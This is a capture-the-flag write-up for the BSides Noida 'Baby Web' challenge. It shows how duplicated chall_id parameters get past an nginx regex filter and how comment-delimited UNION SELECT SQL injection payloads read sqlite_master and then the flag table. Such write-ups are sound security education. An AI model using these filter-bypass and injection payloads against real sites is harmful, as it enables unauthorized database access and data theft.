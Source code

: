 # Baby Web

#### Category : Web
#### Points : 420 (68 solves)
#### Author : Karma

## Problem
Just a place to see list of all challs from bsides noida CTF, maybe some flag too xD
Note : Bruteforce is not required.

[Link](http://ctf.babyweb.bsidesnoida.in/)

[Sauce](https://storage.googleapis.com/noida_ctf/Web/baby_web.zip)

## Solution

Downloading the source and hosting it in a docker locally, we see that this website takes a parameter `chall_id`

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/baby_web_site.png">

Looking at the `index.php` file, we see that the following sql query is being executed.

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/sql_query.png">

But if we try to put an alphabet in the parameter `chall_id`, we get an error.

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/baby_web_error.png" height="50%" width="50%">

Looking at `config/ctf.conf` in the source code, there is some regex that is used to prevent alphabets and white spaces.

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/baby_web_regex.png">

To bypass this we can use two parameters so that first one is processed by nginx and second one bypasses it.

```html
GET /?chall_id=1&chall_id=a
```

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/nginx_bypass.png">

And to bypass the white space restriction we can use comments.

So instead of  `UNION SELECT`, we use `UNION/**/SELECT`

### Listing columns and tables
From opening `karma.db`(from source code) in sqlite browser, we see that it has 6 columns.

To list columns and tables, I used the following payload

```html
GET /?chall_id=1&chall_id=1/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL,sql/**/FROM/**/sqlite_master
```

Using this payload we get a table named `flagsss` and column named `flag`

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/getting_tables_columns.png">

Now, we can use the following query to retrieve the flag.

```html
GET /?chall_id=1&chall_id=1/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL,flag/**/FROM/**/flagsss
```

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/flag_query.png">

So the flag is `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`